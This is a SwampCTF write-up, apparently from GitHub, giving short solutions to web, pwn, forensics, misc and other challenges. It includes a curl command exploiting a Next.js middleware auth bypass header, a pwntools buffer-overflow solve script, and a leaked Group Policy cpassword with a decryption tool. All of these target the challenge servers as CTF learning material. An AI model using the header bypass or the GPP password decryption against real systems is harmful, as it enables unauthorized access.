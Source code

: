 * * *
### CTF: **SwampCTF**
* * *

![image](https://github.com/user-attachments/assets/e85ba37f-462c-4762-9886-468bf675e5ea)


--------------------------------

### Challenges

- Web:
  - Serialies
  - SlowAPI 

- Pwn:
  - Beginner Pwn 1
  - Beginner Pwn 2

- Misc:
  - Lost In Translation 
    
- Forensics:
  - Preferential Treatment

- Osint:
  - Party Time! 
  - Party Time! Level 2 

- Crypto:
  - Rock my Password 
  - Intercepted communications
  
--------------------------------
   
### Web:

### Challenge: Serialies
![image](https://github.com/user-attachments/assets/64b27c27-c8b1-4d4a-8e72-2859105706a7)

After I Download the file ```serialies.zip```
In the PersonController.java file, we find the /api/person endpoint. Navigating there gives us the flag.

![image](https://github.com/user-attachments/assets/9bf8ffdd-7fa3-44e9-80a8-df9f40389e33)
swampCTF{f1l3_r34d_4nd_d3s3r14l1z3_pwn4g3_x7q9z2r5v8}

--------------------------------


### Challenge: SlowAPI 
![image](https://github.com/user-attachments/assets/7639e47e-e6fb-4373-9cc0-c5fc4bfc6e2d)

- IT The RECENT NEXT.JS VULNERABILITY!!!!
```curl -H "x-middleware-subrequest: middleware" http://chals.swampctf.com:43611/api/protected/flag```
      
--------------------------------


### PWN:

### Challenge: Beginner Pwn 1
![image](https://github.com/user-attachments/assets/708c2055-022e-4c34-a702-e39f67354b5a)

- Solve script
python3
[from pwn import *

# Set up connection to the challenge server
HOST = "chals.swampctf.com"
PORT = 40004

# Buffer overflow payload
payload = b"A" * 10 + b"\x01\x00\x00\x00"  # Overwrite is_admin to 1 (true)

# Start interaction
p = remote(HOST, PORT)
p.recvuntil(b"please enter your name: ")
p.sendline(payload)

# Read output to check if admin
print(p.recv().decode())

# Send "y" to print flag
p.sendline(b"y")

# Receive and print flag
print(p.recvall().decode())

# Close connection
p.close()
]
 
### Challenge: Beginner Pwn 2
![image](https://github.com/user-attachments/assets/cc125998-d69a-423d-b5e8-3bdd7eebf32e)

- Solve Script


--------------------------------

### MISC

### Challenge: Lost In Translation

![image](https://github.com/user-attachments/assets/32e32d6b-eee6-4494-8e1c-b35f7c53510a)

After i unzip the file, there is challenge.js and i Copy and paste the challenge.js to this whitespace "https://www.dcode.fr/whitespace-language"</a>




  
--------------------------------

### FORENSICS:

### Challenge: Preferential Treatment:
![image](https://github.com/user-attachments/assets/84ac06e1-0957-45a5-ab7b-3c04a9dbc6b6)

when checking the pcap following the tcp you can see the following:
"<Groups clsid="{3125E937-EC16-4b4c-9934-544FC6D24D26}">
    <User clsid="{DF5F1855-52E5-4d24-8B1A-D9BDE98BA1D1}" name="swampctf.com\Administrator" image="2"
          changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
        <Properties action="U" newName="" fullName="" description=""
                    cpassword="dAw7VQvfj9rs53A8t4PudTVf85Ca5cmC1Xjx6TpI/cS8WD4D8DXbKiWIZslihdJw3Rf+ijboX7FgLW7pF0K6x7dfhQ8gxLq34ENGjN8eTOI="
                    changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="swampctf.com\Administrator"/>
    </User>
</Groups>"
then I looked up what that was and realized it was a weakly encrypted password
so I found a repo to decrypt it.
"https://github.com/t0thkr1s/gpp-decrypt"



--------------------------------


### OSINT      

### Challenge: Party Time! 
![image](https://github.com/user-attachments/assets/f3f16896-d45f-461a-9c41-b047cb34c697)



### Challenge: Party Time! Level 2
![image](https://github.com/user-attachments/assets/dcd2698c-1dd1-479b-b215-517fa5dec4f3)



--------------------------------

### CRYPTO:

### Challenge: Rock my Password 
![image](https://github.com/user-attachments/assets/bba615e3-4145-4d6d-9129-5a296d8598ba)


### Challenge: Intercepted communications
![image](https://github.com/user-attachments/assets/b84f48ac-de68-4af6-b0cd-dc8dd0cdf699)





--------------------------------

Thanks for reading!!!!!

* * *

